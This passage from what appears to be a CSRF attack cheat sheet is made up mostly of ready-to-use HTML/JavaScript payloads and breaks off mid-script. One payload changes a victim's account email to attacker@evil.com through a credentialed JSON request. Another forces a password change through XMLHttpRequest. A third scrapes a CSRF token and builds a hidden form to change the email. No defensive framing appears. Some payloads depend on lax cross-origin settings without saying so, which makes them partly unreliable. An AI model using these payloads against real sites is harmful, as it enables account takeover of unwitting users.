 ### JSON-based CSRF Attack

```html
<script>
    fetch('https://api.target.com/update_profile', {
        method: 'POST',
        credentials: 'include',  // Include cookies
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            "name": "Hacked User",
            "email": "attacker@evil.com"
        })
    });
</script>
```

## Advanced CSRF Techniques

### CSRF via XMLHttpRequest

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://target.com/api/account/password", true);
    xhr.withCredentials = true;  // Include cookies
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("new_password=hacked&confirm_password=hacked");
</script>
```

### Multi-Step CSRF Attacks

```html
<script>
    // Step 1: Get CSRF token
    fetch('https://target.com/profile', {
        credentials: 'include'
    })
    .then(response => response.text())
    .then(html => {
        // Extract token
        const tokenMatch = html.match(/csrf_token" value="([^"]+)"/);
        const token = tokenMatch[1];
        
        // Step 2: Use token in attack
        const form = document.createElement('form');
        form.action = 'https://target.com/change_email';
        form.method = 'POST';
        
        const tokenField = document.createElement('input');
        tokenField.type = 'hidden';
        tokenField.name = 'csrf_token';
        tokenField.value = token;
        
        const emailField = document.createElement('input');
        emailField.type = 'hidden';
        emailField.name = 'email';
        emailField.value = 'attacker@evil.com';
        
        form.appendChild(tokenField);
        form.appendChild(emailField);
        document.body.appendChild(form);
```